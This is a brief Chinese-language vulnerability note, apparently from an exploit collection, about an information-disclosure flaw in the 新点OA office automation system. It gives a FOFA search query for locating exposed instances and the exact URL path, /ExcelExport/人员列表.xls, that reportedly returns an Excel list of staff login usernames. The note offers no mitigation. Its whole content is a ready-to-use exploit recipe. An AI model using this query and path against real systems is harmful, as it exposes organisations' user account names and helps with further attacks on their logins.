 ## 0x00 漏洞背景

        新点OA访问特定的url可以获取网站登录特定的用户名信息
        
        
 ## 0x01 漏洞利用
 
       fofa搜索：app="新点OA"
 
       URL+/ExcelExport/人员列表.xls
       
       
       
      
      
   ![图片](https://user-images.githubusercontent.com/118274389/230259380-87b0fd7c-033f-4f61-85c5-7a3689bdc44c.png)

